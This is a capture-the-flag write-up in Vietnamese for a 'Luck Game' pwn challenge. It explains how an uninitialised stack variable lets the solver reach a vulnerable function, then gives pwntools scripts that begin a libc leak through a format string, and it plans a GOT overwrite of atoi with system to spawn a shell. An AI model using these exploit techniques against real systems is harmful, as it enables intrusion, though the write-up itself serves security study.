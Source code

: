 ### EXPLOIT 

ở đây ta có thể thấy 1 điều đặc biệt , trước khi ta nhập ```choice``` thì choice có giá trị giống với số random ở hàm ```game_of_lucky``` 

![image](https://hackmd.io/_uploads/rkPp6ouPkx.png)

check thử thì ta thấy nó đều nằm ở ```rbp-C```

![image](https://hackmd.io/_uploads/B1mGAjuvye.png)

![image](https://hackmd.io/_uploads/BylIRsuPJg.png)

- vậy từ đều đó , nếu số random ra là 68 thì hiển nhiên ta có thể vào hàm ```vuln``` và khai thác , hướng đi của bài này sẽ là leak libc và overwrite ```GOT``` vì bài này chỉ là RELRO 1 phần


- ở đây ta cần thêm 1 trick là khi mà giá trị random đó là 68 và lúc này ta nhập choice vào thì nó sẽ mất đi số 68 luôn , lúc này ta cần nhập ```+``` thì nó sẽ không lưu vào buffer 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./chal',checksec=False)


while True:
    p = process()
    p.recvuntil(b'Welcome to the Luck Game!Lucky number: ')

    if int(p.recvline()) == 68:
        break
    p.close()

p.sendline(b'+')
p.interactive()
```

- tiếp theo việc cần làm là tính được ```libc``` , ở bài này không cho ```dockerfile``` nên ta cần leak và tìm libc trên sever tuy nhiên sever đã đóng nên mình exploit ở local thôi

- sau khi leak libc xong thì ta cần tìm 1 got nào có ít đối số để thực thi ```system(/bin/sh)``` và ```atoi@got``` sẽ là thằng thích hợp nhất 

script 

```c
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./chal',checksec=False)
libc = exe.libc

while True:
    p = process()
    p.recvuntil(b'Welcome to the Luck Game!Lucky number: ')

    if int(p.recvline()) == 68:
        break
    p.close()

p.sendline(b'+')

p.sendafter(b'name: ',b'%47$p')
```